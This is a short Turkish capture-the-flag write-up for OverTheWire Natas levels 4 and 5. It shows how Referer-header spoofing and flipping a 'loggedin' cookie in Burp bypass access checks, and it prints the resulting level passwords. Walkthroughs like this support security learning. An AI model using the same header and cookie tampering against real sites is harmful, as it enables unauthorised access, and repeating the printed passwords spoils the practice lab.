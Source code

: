 
Natas Level 3 → Level 4
======

+ Username: natas4
+ URL:      http://natas4.natas.labs.overthewire.org

Hint;
- Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

Burp kullanılarak,

```terminal
Connection: close
Referer: http://natas4.natas.labs.overthewire.org/
```

bölümündeki  natas4 natas5 ile değiştirildiğinde password elde edilmiştir.

```terminal
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq")


Natas Level 4 → Level 5
======

+ Username: natas5
+ URL:      http://natas5.natas.labs.overthewire.org

Burp içeriğinde,

```terminal
Connection: close
Cookie: __cfduid=dba01fedb212ee987ed2e92c10e138e961572421136; loggedin=0
Upgrade-Insecure-Requests: 1
DNT: 1
Cache-Control: max-age=0
```

_loggedin_ kısmını 1 yaparak password elde edilmiştir.

```terminal
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1")
